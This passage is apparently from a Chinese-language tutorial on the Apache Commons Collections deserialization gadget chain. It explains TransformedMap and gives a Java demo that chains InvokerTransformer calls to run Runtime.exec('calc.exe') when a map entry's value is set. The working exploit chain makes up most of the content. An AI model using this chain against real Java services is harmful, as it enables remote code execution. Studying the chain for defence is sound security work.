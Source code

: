 ```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```

Transformer实现类分别绑定在map的key和value上，当map的key和value被修改时，会调用对应Transformer实现类的transformer()方法。

我们可以把 chainedtransformer 绑定到一个 TransformedMap 上，当此map的key或value发生改变时（调用 TransformedMap 的 setValue/put/putAll 中的任意方法），就会自动触发 chainedtransformer。

```java
package com.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class Demo04 {
    public static void main(String[] args) {
        String cmd = "calc.exe";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{cmd})
        };
        // 创建ChainedTransformer调⽤链对象
        Transformer transformedChain = new ChainedTransformer(transformers);
        //创建Map对象
        Map map = new HashMap();
        map.put("value", "value");
        // 使⽤TransformedMap创建⼀个含有恶意调⽤链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null,
                transformedChain);
    // transformedMap.put("v1", "v2");// 执⾏put也会触发transform
    // 遍历Map元素，并调⽤setValue⽅法
        for (Object obj : transformedMap.entrySet()) {
            Map.Entry entry = (Map.Entry) obj;
    // setValue最终调⽤到InvokerTransformer的transform⽅法,从⽽触发Runtime命令执⾏调⽤链
            entry.setValue("test");
        }
//            System.out.println(transformedMap);
        }
    }
```
